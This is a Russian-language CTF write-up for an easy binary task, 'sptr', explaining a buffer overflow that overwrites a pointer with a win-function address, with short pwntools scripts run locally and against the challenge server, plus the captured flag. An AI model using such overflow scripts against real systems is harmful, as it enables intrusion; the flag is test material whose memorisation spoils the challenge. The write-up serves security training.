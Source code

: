 # Сайт: forkbomb.ru 
# Автор: @korniltsev (Anatoly Korniltsev)
# Название: sptr
# Сложность: Easy

В данном блоке предложены задачи на перетирание адресов. Перетирание адреса и изменения поведения программ является одним из ключевых навыков на любом CTF. В данных задачах важно понимать суть атаки, поэтому на небольших задачах листниг в ассемблере больше разбирать не будем. Начнем решение: <br />
![image](https://github.com/user-attachments/assets/d382dd4b-817d-4dc3-a60d-ba50a2bd6b16)

Изначально указатель содержит адрес указывающий на строку `NO WIN`. Наша задача его перезаписать. Для того, чтобы его перезаписать нам необходимо переполнить статический
массив `auStack_18`, а рядом, написать новый адрес (естественно в little endian). Это можно сделать разными способами, но я предпочитаю использовать библеотеку `pwntools`.
Сначала получим локальный флаг, а затем настоящий: 

```py
p = process('./sptr')
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()

```
![image](https://github.com/user-attachments/assets/bdec7ead-e676-4f20-acac-fc21bc677591) <br />

Получилось, а значит можем запустить программу на сервере:

```py
from pwn import * 

p = remote('109.233.56.90', 11600)
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```

![image](https://github.com/user-attachments/assets/c86f4aa4-1813-4dd4-9966-ca2ec9cc49c4) <br />

Ответ: `spbctf{b0e0b0cedc622b2396e0069cd5a5f568}`
